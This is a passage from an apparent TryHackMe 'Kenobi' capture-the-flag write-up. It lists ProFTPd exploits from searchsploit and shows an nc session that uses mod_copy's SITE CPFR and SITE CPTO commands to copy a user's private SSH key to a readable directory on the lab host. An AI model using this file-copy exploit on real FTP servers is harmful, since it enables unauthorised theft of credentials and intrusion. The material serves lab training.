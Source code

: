 ```
ProFTPd 1.3.0/1.3.0a - 'mod_ctrls' exec-shield Local Overflow                                                                                                | linux/local/3730.txt
ProFTPd 1.3.0a - 'mod_ctrls' 'support' Local Buffer Overflow (PoC)                                                                                           | linux/dos/2928.py
ProFTPd 1.3.2 rc3 < 1.3.3b (FreeBSD) - Telnet IAC Buffer Overflow (Metasploit)                                                                               | linux/remote/16878.rb
ProFTPd 1.3.2 rc3 < 1.3.3b (Linux) - Telnet IAC Buffer Overflow (Metasploit)                                                                                 | linux/remote/16851.rb
ProFTPd 1.3.3c - Compromised Source Backdoor Remote Code Execution                                                                                           | linux/remote/15662.txt
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                                                                                    | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                                                                                          | linux/remote/36803.py
ProFTPd 1.3.5 - File Copy                                                                                                                                    | linux/remote/36742.txt
ProFTPd 1.x - 'mod_tls' Remote Buffer Overflow                                                                                                               | linux/remote/4312.c
ProFTPd IAC 1.3.x - Remote Command Execution                                                                                                                 | linux/remote/15449.pl
ProFTPd-1.3.3c - Backdoor Command Execution (Metasploit)                                                                                                     | linux/remote/16921.rb
WU-FTPD 2.4.2 / SCO Open Server 5.0.5 / ProFTPd 1.2 pre1 - 'realpath' Remote Buffer Overflow (1)                                                             | linux/remote/19086.c
WU-FTPD 2.4.2 / SCO Open Server 5.0.5 / ProFTPd 1.2 pre1 - 'realpath' Remote Buffer Overflow (2)                                                             | linux/remote/19087.c
WU-FTPD 2.4/2.5/2.6 / Trolltech ftpd 1.2 / ProFTPd 1.2 / BeroFTPD 1.3.4 FTP - glob Expansion                                                                 | linux/remote/20690.sh
------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

`3`

3. You should have found an exploit from ProFtpd's mod_copy module. 

The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

We know that the FTP service is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user. 

```
kali@kali:~/CTFs/tryhackme/Kenobi$ nc 10.10.222.46 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.222.46]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

